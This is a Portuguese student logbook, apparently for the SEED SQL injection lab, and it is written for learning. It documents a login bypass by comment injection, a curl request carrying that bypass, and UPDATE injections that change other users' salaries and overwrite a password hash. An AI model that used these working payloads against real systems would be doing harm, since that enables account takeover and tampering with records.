 # LOGBOOK9.md

## Task1

Esta primeira task tem como objectivo ajudar-nos a familiarizar-nos com SQL.

Para tal, após darmos setup ao Lab devemos aceder a todas as informações guardadas na database relacionadas com o user Alice.

Para isso corremos a seguinte query:

```sql
Select * from credentials where Name = "Alice";
```

obtendo os seguintes resultados:

![image1](images\image1_log9.png)

Tal como pretendiamos.

## Task2

Na segunda task devemos dar aceder a uma conta no site dado usando SQL Injection

Primeiro devemos analisar o código em `unsafe_home.php` e verificamos que a query usada para ir buscar o user dependendo do `name` e `password` é pouco segura, pois não verifica o input o que o torna vulnerável a SQL Injection

```sql
 SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password 
			  FROM credentials
        WHERE name= '$input_uname' and Password='$hashed_pwd';
```

Para conseguirmos dar login sem sabermos a password temos de alterar a query para que nos permita aceder sem verificar a password.

para isso temos de obrigar a query a terminar antes de verificar a password. Adicionando um `‘` após  darmos input ao nome e comentando o resto da query com `—` .

A Query será chamada assim:

```sql
SELECT * FROM credentials where name='$input_name'; -- and Password = '$hashed_pwd';
```

Assim executamos o exploit.

### 2.1

Realizar o ataque através do site `www-seed-server.com:`

sabendo que `$input_name` é o valor que escrevermos em username:

![image2](images\image2_log9.png)

![image3](images\image3_log9.png)

### 2.2

Devemos agora aceder usando a command line para executar o exploit

Para tal devemos usar o comando `curl` que nos permite fazer request a um URL.

Para colocarmos `‘` e espaços temos de usar `%20` e `%27`, pois alguns caracteres especias têm de ser encoded.

```sql
curl "www.seed-server.com/unsafe_home.php?username=Alice%27;%20--%20"
```

correndo isto no terminal

![image4](images\image4_log9.png)

![image5](images\image5_log9.png)

Ganhamos acesso ao site através do terminal.

### 2.3

Para conseguirmos dar update à database devemos usar a mesma lógica anterior e introduzir uma query que atualize a database usando `UPDATE`.

```sql
Select * from credential where name = '%input_name'; 
Update credential set nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='$input_phonenumber'
WHERE ID='$id'; -- Password = '$hashed_'
```

podemos passar os seguintes valores

```sql
Alice'; Update credential set nickname = 'NovoNickname',
email = 'NovoEmailAlice',
address = 'NovoAdress',
Password = 'NovaPass',
PhoneNumber  = 1234456789
where ID=1; -- 
```

quando introduzimos o código surge o seguinte erro : 

![image6](images\image6_log9.png)

Este erro surge porque o código só espera um único statement por query:

no código é usado `$conn→query($sql)` o que só permite executar um statement, daí retornar um erro. Para podermos executar mais que um statement devemos alterar o código e  `$conn→multi_query($sql)` de modo a que permita correr mais do que uma query.

![image7](images\image7_log9.png)

Após fazermos esta alteração, correr o server de novo e voltar a tentar o exploit conseguimos finalmente aceder à conta com as informações alteradas:

![image8](images\image8_log9.png)

## Task3

O exploit da SQL Injection num UPDATE é bastante mais grave, visto que pode editar diretamente a base de dados.

### 3.1

Para fazermos login na conta da Alice e alterarmos o seu salário através da edição no perfil, é necessário iniciar sessão com o username Alice e a password `seedalice` (que obtivemos através da desencriptação `SHA1`) , navegando depois para a página do perfil.

Sabendo que a coluna na tabela é “salary”, podemos usá-la para injetar um salário num dos campos de input (por exemplo, o número de telefone), usando ', salary=`'9999999` .

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber=933667378,Salary=9999999 WHERE ID=$id;
```

![image9](images\image9_log9.png)

Assim, alteramos o valor do salário da Alice.

![image10](images\image10_log9.png)

### 3.2

De maneira semelhante, usamos uma query para alterar o o salário de outra pessoa. Neste caso, como vamos alterar o salário do Ryan, podemos acrescentar à query `Where Name='Ryan'; -- '` .

```sql
PhoneNumber='', salary='1' WHERE Name='Ryan'; --
```

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='',Salary='-111111' WHERE Name='Ryan'# WHERE ID=$id;
```

![image11](images\image11_log9.png)

Depois disto, clicamos para guardar a edição de perfil.

Ao sair da conta e entrar no site com a conta do Ryan, podemos verificar que o seu novo salário é, de facto, o que definimos.

![image12](images\image12_log9.png)

### 3.3

Para podermos alterar a palavra passe de outro utilizar, temos de iniciar sessão primeiro, portanto iniciamos sessão na conta da Alice.

Visto as passwords serem guardadas na base de dados como hash em vez de plain text, ciframos o valor que queremos que seja a nova palavra passe do Boby (NovaPasse) com criptografia SHA1 - `96001b804a28c9aeb0ae597319ca2039ab36ba83` **.**

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='', password='96001b804a28c9aeb0ae597319ca2039ab36ba83' WHERE name='Boby'# WHERE ID=$id;
```

![image13](images\image13_log9.png)

E assim conseguimos aceder à conta do Boby, como podemos ver pelo URL, com a palavra-passe `NovaPasse`.

![image14](images\image14_log9.png)